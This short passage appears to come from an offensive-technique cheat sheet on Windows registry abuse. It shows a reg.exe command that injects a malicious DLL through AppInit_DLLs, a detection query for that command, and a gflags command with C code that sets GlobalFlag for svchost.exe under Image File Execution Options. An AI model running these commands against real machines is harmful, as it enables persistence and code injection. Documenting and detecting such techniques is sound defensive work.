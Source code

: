 ### AppInit_DLLs Injection

Injecting malicious DLLs via AppInit_DLLs registry key

```
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t REG_SZ /d "malicious.dll"
```

```
process.name: "reg.exe" AND process.args: "AppInit_DLLs"
```



### Global Flags Override

Overriding global flags to debug svchost

```
gflags.exe /p /enable svchost.exe /full
```



```
#include <windows.h>
#include <stdio.h>

int main() {
    HKEY hKey;
    DWORD dwFlags = 0x2;  // FLG_HEAP_ENABLE_TAIL_CHECK, as an example

    // Open the Image File Execution Options key for svchost.exe
    if (RegOpenKeyEx(HKEY_LOCAL_MACHINE, "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\svchost.exe", 0, KEY_SET_VALUE, &hKey) != ERROR_SUCCESS) {
        printf("Failed to open registry key.\n");
        return 1;
    }

    // Set the global flag
    if (RegSetValueEx(hKey, "GlobalFlag", 0, REG_DWORD, (BYTE*)&dwFlags, sizeof(dwFlags)) != ERROR_SUCCESS) {
        printf("Failed to set GlobalFlag.\n");
        RegCloseKey(hKey);
        return 1;
    }

    printf("GlobalFlag set successfully for svchost.exe.\n");

    // Cleanup
    RegCloseKey(hKey);
    return 0;
}
```

